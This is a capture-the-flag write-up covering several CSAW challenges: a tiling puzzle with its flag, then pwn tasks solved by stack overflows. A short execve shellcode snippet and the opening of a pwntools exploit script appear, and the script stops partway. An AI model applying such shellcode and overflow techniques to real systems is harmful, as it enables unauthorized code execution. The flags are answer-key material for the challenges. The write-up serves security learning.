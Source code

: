 All the quarters are actually tiled the same way, as `n - 1`, just turned differently. We just need to place a tile in the middle to connect them. In fact, it doesn't matter where the hole is in the board. We just need to separate the board into quarters and tile each quarter independently.

([Full Haxe script here](scripts/TakeL.hx))

`flag{m@n_that_was_sup3r_hard_i_sh0uld_have_just_taken_the_L}`

## 25 Pwn / bigboy ##

**Description**

> Only big boi pwners will get this one!
> 
> `nc pwn.chal.csaw.io 9000`

**Files provided**

 - [`boi`](files/boi)

**Solution** (by [Mem2019](https://github.com/Mem2019))

stack overflow to change the variable

## 50 Pwn / get it? ##

**Description**

> Do you get it?
> 
> `nc pwn.chal.csaw.io 9001`

**Files provided**

 - [`get_it`](files/get_it)

**Solution** (by [Mem2019](https://github.com/Mem2019))

stack overflow to change the return address to the shell function

## 100 Pwn / shell->code ##

**Description**

> Linked lists are great! They let you chain pieces of data together.
> 
> `nc pwn.chal.csaw.io 9005`

**Files provided**

 - [`shellpointcode`](files/shellpointcode)

**Solution** (by [Mem2019](https://github.com/Mem2019))

put `/bin/sh\x00` into node 1, and put shellcode 

```assembly
add esp,0x30
xor rdx,rdx
xor rsi,rsi
push SYS_execve
pop rax
syscall
```
```python
from pwn import *
g_local=True
context.log_level='debug'
if g_local:
	sh = process('./shellpointcode')#env={'LD_PRELOAD':'./libc.so.6'}
	gdb.attach(sh)
else:
```
